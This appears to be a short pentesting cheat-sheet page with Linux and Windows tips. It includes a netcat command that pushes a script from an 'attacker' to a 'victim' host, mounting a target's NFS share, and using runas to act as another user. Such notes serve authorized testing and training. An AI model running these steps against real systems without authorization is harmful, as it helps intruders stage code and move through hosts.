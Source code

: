 > Section for specific knowledge concerning operating systems and special cases

## Linux

### Copy if no web access (Transfer via simple netcat)

```bash
# copy via netcat
nc -l -p 1234 > script.sh # on victim
nc -w 3 <victimIP> 1234 < script.sh # from attacker
```

### Mount nfs share

```bash
sudo mkdir /mnt/nfsshare
sudo mount -t nfs <targetIP>:/home/<remoteShareName> /mnt/nfsshare -o nolock
```

## Windows

### Run programs in another user context within shell

Requirements
- User and password

Run an application in a shell without graphical interface if message `this program cannot be run in DOS mode` appears

```powershell
cmd> runas /user:<username> app.exe
```


